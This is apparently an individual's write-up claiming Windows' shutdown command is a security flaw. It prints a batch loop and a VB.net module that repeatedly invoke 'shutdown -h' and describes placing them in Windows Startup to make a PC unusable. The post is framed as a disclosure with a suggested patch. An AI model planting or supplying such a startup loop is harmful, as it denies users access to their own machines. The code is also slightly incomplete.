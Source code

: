 My World Wide Security Patch for Windows 2000/XP/7/8/10/11 and all Kind of Windows Servers 32bits/64bits.

Author : Wadï Mami

Publication Date : 12/07/2021

Email : wmami@steg.com.tn / didipostman77@gmail.com 


Introduction

Since 2015 I have contacted Microsoft for a security vulnerability which is a Dos (Disk Operating System) command. For this reason I have written .bat file which exploits this command. But MSRC (Microsoft Security Response Center) consider it as a malware and I must report it like that. I was not agree but I accepted and I reported it as a malware but they did nothing
. 
Please visit https://github.com/didipostman/MyVirus

But let me explain to you the real problem.


The problem

If shutdown command is executed in Windows startup you can not use your Windows PC/Laptop anymore till an expert intervention by booting with a bootable CD/DVD or a system Flash disk and then exploring the startup Windows for a suspicious file that exploit shutdown command and delete it.
Think if the following .bat file is copied in the start up Windows by a Worm 
Please visit:

https://stackoverflow.com/questions/35587412/how-this-batch-worm-works

https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture22.pdf

here I give only concept Don't use this code whith malicious intention!

---------------------------------------------------------------

echo off

rem clean screen

cls

rem definition return point

:loop

rem execute shutdown -h

shutdown -h

rem return to :loop

goto loop

That kind of code can be hidden in software you use or you download and install in Windows Startup. It works fine for windows 2000/XP/7/8/10/11 etc.
Moreover here a VB.net equivalent code to the .bat DOS Shell above A VB.net Source Code as an example It works fine for Windows XP/7/8/10/11.
It is a VB.net Module that can generate .exe file

---------------------------------------------------------

Imports System.Runtime.InteropServices 

Module Module1 

Sub Main()

Dim process As Process = process.Start("cmd","/C shutdown -h")

Main() 

End Sub

As you can see all high generation Languages can exploit this DOS command shutdown –h which leads to a DoS a denial of service well a denial of all the services as your Windows Pc is intact but you can’t make use of it.

Conclusion :
What is the solution to avoid this kind of exploit of this DOS command shutdown.
Shall Microsoft Depricated it or shall keep it assuming security measurements in using it.
I think the patch for all kind of Windows is to ask for account password anytime shutdown is invoked


https://github.com/didipostman/MyVirus

Shutdown: Allow system to be shut down without having to log on

 https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/shutdown-allow-system-to-be-shut-down-without-having-to-log-on
